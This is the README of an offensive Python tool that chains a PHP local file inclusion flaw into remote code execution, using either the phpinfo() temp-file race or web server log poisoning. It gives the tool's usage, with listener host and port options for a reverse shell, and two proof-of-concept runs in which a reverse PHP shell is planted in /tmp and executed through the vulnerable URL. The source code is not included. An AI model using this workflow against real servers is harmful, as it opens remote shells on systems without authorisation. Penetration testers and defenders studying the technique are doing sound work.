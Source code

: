 # LFI to RCE via phpinfo() assistance or via controlled log file 

For more details about exploit via phpinfo(). research from [here](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)
For more details about exploit via controlled log file, writeup grom [here](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

# Use case
#### About LFI to RCE via phpinfo()
- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 

#### About LFI to RCE via controlled log file
- Found an LFI Vulnerability
- found the web server log file path or try paths from script.

# Usage 

```
usage: phpinfolfi_rce.py [-h] [-a ACTION] -l LFI --lhost LHOST --lport LPORT
                         [--payload PTYPE] [-e REQEND] [-v VERBOSE]
                         [-t THREADS] [-i PHPINFO] [-f LOGFILE]

RCE from LFI with PHPINFO assistance or Via controlled log file

optional arguments:
  -h, --help            show this help message and exit
  -a ACTION, --action ACTION
                        Define the attack type - 1 for PHPINFO and - 2 for
                        controlled log. Value 1 by default
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
  -t THREADS, --threads THREADS
                        [For phpinfo action]. Threads number, set to 10 by
                        default
  -i PHPINFO, --phpinfo PHPINFO
                        [For phpinfo action]. Define the url path of the
                        "phpinfo" script. Per ex: "http://host/phpinfo.php"
  -f LOGFILE, --logfile LOGFILE
                        [For controlled log action]. Define the path of the
                        http server log file. By default script will use
                        bruteforce

```


# POC
#### About LFI to RCE via phpinfo() 

```
$ python phpinfolfi_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

#### About LFI to RCE via controlled log file

```
$ python phpinfolfi_rce.py -a 2 -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI RCE via controlled log
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

  16 /   26
Got it! Reverse php Shell created in /tmp/k0THSi7vdS58.php

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/k0THSi7vdS58.php

Verify your nc listenner 127.0.0.1:9001

```

### Nota 

Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```

